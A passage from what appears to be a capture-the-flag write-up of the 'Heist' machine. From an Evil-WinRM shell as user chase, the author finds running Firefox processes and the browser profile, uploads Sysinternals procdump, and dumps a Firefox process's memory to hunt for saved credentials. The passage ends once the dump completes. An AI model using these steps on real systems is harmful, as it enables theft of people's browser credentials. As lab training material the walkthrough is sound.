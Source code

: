 How would chase check the issues list? With a browser. I'll also notice
that multiple instances of `firefox` are in the process list:



    *Evil-WinRM* PS C:\> get-process firefox
    Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
    -------  ------    -----      -----     ------     --  -- -----------
        358      26    16332     279920       0.73   6252   1 firefox
       1138      71   141448     476008      42.98   6440   1 firefox
        341      19    10176     264104       0.80   6564   1 firefox
        407      31    17392     293212       3.86   6796   1 firefox
        390      36    78456     341504      67.70   7104   1 firefox   



I also see a profile in chase's `appdata` directory:



    *Evil-WinRM* PS C:\users\chase\appdata\roaming\Mozilla\Firefox\Profiles> ls


        Directory: C:\users\chase\appdata\roaming\Mozilla\Firefox\Profiles


    Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
    ----                -------------         ------ ----                                                                                                                                                                                                    
    d-----        8/23/2019  12:38 PM                77nc64t5.default



### Get Creds from Firefox

I'll show a few different ways to do this.

#### procdump / Out-Minidump

I'll grab `procdump64.exe` from the [sysinternals tools
page](https://live.sysinternals.com/), and upload it to Heist:



    *Evil-WinRM* PS C:\Users\Chase\Documents> upload ~/exes/procdump64.exe .
    Info: Uploading ~/exes/procdump64.exe to .

    Data: 455560 bytes of 455560 bytes copied

    Info: Upload successful!



Now I'll run it on one of the pids for `firefox` from above:



    *Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64 -ma 6252 -accepteula

    ProcDump v9.0 - Sysinternals process dump utility
    Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
    Sysinternals - www.sysinternals.com

    [02:54:30] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_190823_025430.dmp
    [02:54:30] Dump 1 writing: Estimated dump file size is 280 MB.
    [02:54:32] Dump 1 complete: 281 MB written in 2.1 seconds
    [02:54:33] Dump count reached.
